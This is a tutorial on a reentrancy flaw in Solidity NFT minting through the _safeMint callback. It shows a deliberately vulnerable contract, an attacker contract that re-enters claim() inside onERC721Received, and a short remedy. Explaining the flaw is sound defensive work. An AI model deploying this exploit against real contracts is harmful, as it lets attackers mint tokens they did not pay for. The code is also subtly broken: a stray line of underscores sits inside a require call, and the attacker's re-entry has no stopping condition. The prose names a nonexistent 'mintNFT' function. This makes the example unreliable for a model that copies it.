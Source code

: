 # Unprotected Callback

When writing or interacting with `callback functions in solidity`, it's important to ensure that they can't be used to perform `unexpected effects`.

## When **SafeMint** Becomes **Unsafe**

Take for example OpenZeppelin's ERC721._safeMint_ function:


When minting NFTs, the code uses _safeMint function_ of the OZ reference implementation. This function is safe because it checks whether the receiver can 
`receive ERC721 tokens`. The can prevent the case that a NFT will be minted to a contract that cannot handle `ERC721 tokens`. 

    /**
      * @dev Same as {xref-ERC721-_safeMint-address-uint256-}[`_safeMint`], with an additional `data` parameter which is
      * forwarded in {IERC721Receiver-onERC721Received} to contract recipients.
      */
    function _safeMint(
        address to,
        uint256 tokenId,
        bytes memory _data
    ) internal virtual {
        _mint(to, tokenId);
        require(
            _checkOnERC721Received(address(0), to, tokenId, _data),
            _____________________________________________________
            
            
            "ERC721: transfer to non ERC721Receiver implementer"
        );
    }
    
This all seems fine, but since `_checkOnERC721Received is a callback function`.
However, this `external function call` creates a `security loophole`. Specifically, the attacker can perform a reentrant call inside the `onERC721Received callback`.


### NFT contract

Any user can buy NFT in this NFT contract by activating the `buyNFT() function` , and then they can claim their NFT.

    // SPDX-License-Identifier: UNLICENSED

    pragma solidity 0.8.7;

    import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC721/extensions/ERC721Enumerable.sol";
    import "hardhat/console.sol";

    contract safeNFT is ERC721Enumerable {
        uint256 price;
        mapping(address=>bool) public canClaim;

        constructor(string memory tokenName, string memory tokenSymbol,uint256 _price) ERC721(tokenName, tokenSymbol) {
            price = _price; //price = 0.01 ETH
        }

        function buyNFT() external payable {
            require(price==msg.value,"INVALID_VALUE");
            canClaim[msg.sender] = true;
        }

        function claim() external {
            require(canClaim[msg.sender],"CANT_MINT");
            _safeMint(msg.sender, totalSupply()); 
            canClaim[msg.sender] = false;
        }

    }


When minting NFTs, the code uses `_safeMint() function` of the OZ reference implementation. This 
function is `safe` because it checks whether the receiver can `receive ERC721 tokens`.
`IERC721Receiver(to).onERC721Received(_msgSender(), from, tokenId, data)
returns (bytes4 retval)`




#### The Attacker contract

this external function call creates a security loophole. Specifically, the attacker can perform a 
reentrant call inside the onERC721Received callback.


    contract Attack{    
      
            // safeNFT is nft contract where anyone can perform any operation
            
            safeNFT public ContractAddress;
            constructor(address _address) payable {
                ContractAddress=safeNFT(_address);
            }

      
            function exploit() public payable  {
                ContractAddress.buyNFT{value: 0.01 ether}();
                ContractAddress.claim();
          }

        function onERC721Received(address from, address _from, uint256 _tokenId, bytes calldata) external  returns(bytes4) {

                ContractAddress.claim();


            return 0x150b7a02;
        }

    }
    
    
The attacker can `invoke` the `mintNFT function` again in the `onERC721Received callback` .

### Prevent technique

To remedy the `vulnerability`  use the `ERC721._mint function` or a `Reentrancy Guard`.
